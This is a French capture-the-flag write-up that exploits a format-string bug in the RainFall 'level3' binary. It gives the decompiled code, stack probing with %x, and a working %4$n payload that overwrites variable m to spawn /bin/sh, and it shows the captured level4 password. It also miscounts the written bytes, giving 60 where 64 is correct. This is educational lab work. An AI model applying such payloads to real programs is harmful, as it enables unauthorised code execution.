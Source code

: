 # Exploitation du niveau 3 : Format String Attack

Dans ce document, je vais expliquer comment j'ai exploité une vulnérabilité de format string dans le programme `level3` pour obtenir un shell interactif. Le processus a impliqué plusieurs étapes, telles que la découverte de l'adresse de la variable `m`, l'injection de cette adresse en Little Endian et l'utilisation de la vulnérabilité pour contrôler l'exécution du programme.

## 1. **Comprendre le programme**
Le programme `level3` contient une vulnérabilité de type format string qui permet d'injecter des données arbitraires dans le programme via la fonction `printf`. Le but de l'exploitation était de manipuler la variable `m` pour exécuter une commande `system("/bin/sh")` et obtenir un shell.

### Code source du programme :
```c
void v(void)
{
  char local_20c [520];
  
  fgets(local_20c,0x200,stdin);
  printf(local_20c);
  if (m == 0x40) {
    fwrite("Wait what?!\n",1,0xc,stdout);
    system("/bin/sh");
  }
  return;
}

void main(void)
{
  v();
  return;
}

```


Dans ce code, printf utilise une chaîne de format fournie par l'utilisateur. Si la valeur de m atteint 0x40, le programme exécute /bin/sh, ce qui nous permet d'obtenir un shell.

## 2. Trouver l'adresse de m
L'adresse de la variable m doit être trouvée afin de pouvoir manipuler sa valeur. Pour cela, j'ai utilisé une attaque de format string pour inspecter la pile et trouver où se situe m.

Étapes pour trouver l'adresse de m :
Utiliser gdb pour analyser la pile : J'ai exécuté le programme dans GDB pour analyser les arguments passés à printf et trouver l'adresse de m.
```bash
gdb ./level3
print &m
```

### Exploiter le format string : J'ai utilisé la commande suivante pour afficher les valeurs dans la pile avec %x :

```bash
level3@RainFall:~$ (python -c "print('AAAAA' + '%x.' * 5)"; cat -) | ./level3
AAAAA200.b7fd1ac0.b7ff37d0.41414141.2e782541.
```
Cette commande affiche les valeurs hexadécimales présentes sur la pile. J'ai pu observer que "AAAAA" qui en hexadecimal correspond a 414414141 apparaissait en 4ème position dans la sortie.
Donc le debut de notre format string est la 4eme valeur de la stack

### 3. Injection de l'adresse de m en Little Endian
Une fois l'adresse de m obtenue, il fallait l'injecter dans le programme. Le format string permet d'écrire des valeurs dans des adresses mémoire via %n. Cependant, printf attend que l'adresse soit injectée dans la pile en Little Endian (ordre des octets inversé).

L'adresse 0x804988c doit être convertie en Little Endian pour l'injecter correctement dans la pile. Cela donne \x8c\x98\x04\x08.

Exemple de conversion en Little Endian :
L'adresse de m : 0x804988c
En Little Endian : \x8c\x98\x04\x08


### 4. Construire le payload final
Maintenant que nous avons l'adresse de m et que nous savons où elle se trouve dans la pile, il faut créer un payload qui écrit dans cette adresse. Le payload doit contenir l'adresse de m en Little Endian et un format %4$n pour écrire la valeur à l'adresse de m.

Payload final :
```bash
(python -c "print('\x8c\x98\x04\x08' + 'a' * 60 + '%4$n')"; cat -) | ./level3
```

#### Explication du payload :
`\x8c\x98\x04\x08` : L'adresse de m en Little Endian.
`'a' * 60` : 60 caractères 'a' pour faire le padding nécessaire et aligner la pile.
`'%4$n'` : %4$n écrit la valeur (le nombre de caractères imprimés) à l'adresse située en 4ème position de la pile (l'adresse de m).

- Ce payload permet de faire en sorte que la valeur 60 (le nombre de caractères avant %4$n) soit écrite à l'adresse 0x804988c, modifiant ainsi la valeur de m.

### 5. Exécution du shell
Une fois que la valeur de m est modifiée pour être égale à 0x40, la condition if (m == 0x40) dans le programme est satisfaite. Le programme exécute alors la commande system("/bin/sh"), ce qui nous donne un shell interactif.

### Résultat final :
```bash
level3@RainFall:~$ (python -c 'print("\x8c\x98\x04\x08" + "a" * 60 + "%4$n")'; cat -) | ./level3
�aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Wait what?!
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
6. Conclusion
Grâce à l'attaque de format string, j'ai pu obtenir l'adresse de la variable m, manipuler cette adresse pour y écrire une valeur spécifique, et finalement obtenir un shell. Ce type d'attaque est très puissant et démontre l'importance de valider correctement les entrées utilisateur pour éviter les vulnérabilités de type format string.